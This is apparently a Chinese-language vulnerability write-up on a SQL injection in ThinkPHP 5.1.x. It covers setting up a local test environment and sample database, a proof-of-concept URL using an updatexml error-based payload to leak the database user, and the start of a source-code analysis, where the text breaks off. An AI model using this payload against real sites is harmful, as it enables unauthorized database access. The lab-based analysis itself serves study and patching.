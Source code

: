 5.1.11～5.1.25 ：

```
datexml(1,concat(0x7,user(),0x7e),1) from users%23
```

#### **漏洞环境**

下载 composer.phar，把他放到 tp 的目录下。

通过一下命令来配置国内源。

```
php composer.phar config -g repo.packagist composer https://mirrors.aliyun.com/composer/
```

通过以下命令来获取测试环境代码：

```
php composer.phar install
```

将 composer.json 文件的 require 字段设置成如下：

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoNVB2GptFv6iaUlfRTibK9yKvmBTnPHNM31waiaRFyHltwMS7dJ8ibQTM4r1UicBmeJrvFkGyWqDbuFaQ/640?wx_fmt=png)  
  

然后执行 composer update ，

并将 application/index/controller/Index.php 文件代码设置如下：

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoNVB2GptFv6iaUlfRTibK9yKhSe1iawbcia0r0MjXaoxc7PesHzjACm4z2sO1320sOicLfD06Hc5jDa3Q/640?wx_fmt=png)

在 config/database.php 文件中配置数据库相关信息

并开启 config/app.php 中的 app_debug 和 app_trace 。

创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(id int primary key auto_increment,username varchar(50) not null);
insert into users(id,username) values(1,'Mochazz');
insert into users(id,username) values(2,'Jerry');
insert into users(id,username) values(3,'Kitty');
```

POC:`http://127.0.0.1:81/index.php/index/index?options=id)%2bupdatexml(1,concat(0x7,user(),0x7e),1)%20from%20users%23`  
即可触发 SQL 注入漏洞 。

（没开启 app_debug 是无法看到 SQL 报错信息的）

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoNVB2GptFv6iaUlfRTibK9yKpN6BD2kp2hPWaVgJnbWicUoicjPiaE79gESzwWWCFbfhzLfLduv9D8jdQ/640?wx_fmt=png)

#### **漏洞分析**

首先，用户可控数据未经过滤，传入 Query 类的 max 方法进行聚合查询语句构造，接着调用本类的 aggregate 方法。
